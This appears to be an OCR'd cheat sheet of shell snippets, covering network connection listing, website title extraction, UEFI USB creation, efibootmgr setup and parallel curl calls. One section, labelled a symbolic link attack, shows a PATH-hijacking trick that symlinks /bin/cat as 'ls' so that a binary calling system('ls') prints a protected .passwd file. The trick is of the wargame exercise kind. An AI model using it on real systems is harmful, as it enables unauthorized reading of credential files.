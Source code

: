 ```sh
netstat -lantp | grep ESTABLISHED |awk '{print $5}' | awk -F: '{print $1}' | sort -u
```

### Symbolic link attack 
```sh
int main(void)
{
        system("ls /path/to/.passwd");
        return 0;
}
```

### Then run: 

```sh
ln -s /bin/cat /tmp/ls
ls -l /tmp/ls
PATH=/tmp
echo $PATH
./binary1
```

### Print title of website:

```sh
echo -e "URL Title: $(curl -s $1|grep -i title|cut -d'<' -f2|cut -d'>' -f2)"
```


### Create a UEFI bootable usb:

```sh
parted /dev/sdc -s print
mkfs.vfat -F 32 /dev/<device>1
mount /dev/<device>1 /<dev_mountpoint>
mount /path/to/iso/Win10_1511_1_<Version>_<Language>_x64.iso /<iso_mountpoint>
cp -R /<iso_mountpoint>/* /<dev_mountpoint>/
printf '%s' "Done" 
```
### Setup efiboomgr

You should know how to edit this line otherwise, man efibootmgr
```sh
efibootmgr -d /dev/sda -p 2 -c -L "Gentoo Linux" -l /vmlinuz-5.4.97-gentoo-x86_64 -u "cryptdevice=UUID=80bf5e3b-c34f-4917-b7e8-6733909ef5a8:latitude-rootfs root=UUID=80bf5e3b-c34f-4917-b7e8-6733909ef5a8 rw initrd=/initramfs-5.4.97-gentoo-x86_64.img"
```

### Run 10 curl commands in parallel via xargs

```sh
NUM="10";time seq ${NUM}|time xargs -I % -n1 -P${NUM} curl -sL ifconfig.co
xx.xxx.xxx.xx
xx.xxx.xxx.xx
xx.xxx.xxx.xx
xx.xxx.xxx.xx
xx.xxx.xxx.xx
xx.xxx.xxx.xx
xx.xxx.xxx.xx
xx.xxx.xxx.xx
xx.xxx.xxx.xx
xx.xxx.xxx.xx
real 0m0.028s
user 0m0.012s
sys  0m0.010s
```
     